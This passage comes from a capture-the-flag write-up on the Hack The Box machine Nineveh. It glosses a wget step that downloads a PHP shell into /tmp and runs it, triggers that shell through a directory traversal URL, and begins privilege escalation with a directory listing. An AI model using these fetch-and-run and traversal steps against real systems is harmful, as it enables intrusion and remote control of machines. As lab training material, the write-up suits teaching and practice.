
`wget - downloads the the main file on the target machine`

`-O /tmp/shell.php - converts the text file into php so we can execute it and saves it inside /tmp folder`

`;php /tmp/shell.php - runs the php file with our malicious payload inside`

> Note: Make sure you use `-O` (capital) because `-o` has different output which won't work!
 
To activate our php script that downloads the malicious file, an HTTP request is needed. How would we do such thing though? Remember the previous dashboard we found on port 80? Look at the url after clicking "Notes":

<img src="/img/blog/htb-nineveh/htb-nineveh-12.png">

It seems innocent but I immediately noticed a possible directory traversal vulnerability which indeed worked. After accessing `10.10.10.43/department/manage.php?notes=files/ninevehNotes.php/../../../../../../var/tmp/shell.php` the php got activated and we got a shell!   

<img src="/img/blog/htb-nineveh/htb-nineveh-13.png">

> Note: Change ninevehNotes.txt into ninevehNotes.php 

***

# Privilege escalation

## Shorter method

Do `ls -la /`
```console
$ ls -la
total 100
drwxr-xr-x  24 root   root    4096 Jul  2 21:07 .
drwxr-xr-x  24 root   root    4096 Jul  2 21:07 ..
drwxr-xr-x   2 root   root    4096 Jul  2 18:05 bin
drwxr-xr-x   3 root   root    4096 Jul  2 18:20 boot
drwxr-xr-x  19 root   root    4240 Dec 16 08:02 dev
drwxr-xr-x  93 root   root    4096 Aug  5 10:18 etc
drwxr-xr-x   3 root   root    4096 Jul  2 18:41 home
lrwxrwxrwx   1 root   root      32 Jul  2 17:58 initrd.img -> boot/initrd.img-4.4.0-62-generic
drwxr-xr-x  22 root   root    4096 Jul  2 18:05 lib
drwxr-xr-x   2 root   root    4096 Jul  2 19:48 lib64
drwx------   2 root   root   16384 Jul  2 17:57 lost+found
drwxr-xr-x   3 root   root    4096 Jul  2 17:58 media
drwxr-xr-x   2 root   root    4096 Feb 15  2017 mnt
drwxr-xr-x   2 root   root    4096 Feb 15  2017 opt
dr-xr-xr-x 203 root   root       0 Dec 16 08:02 proc
drwxr-xr-x   2 amrois amrois  4096 Dec 16 08:54 report
drwx------   4 root   root    4096 Jul 19 05:05 root
drwxr-xr-x  23 root   root     840 Dec 16 08:02 run
```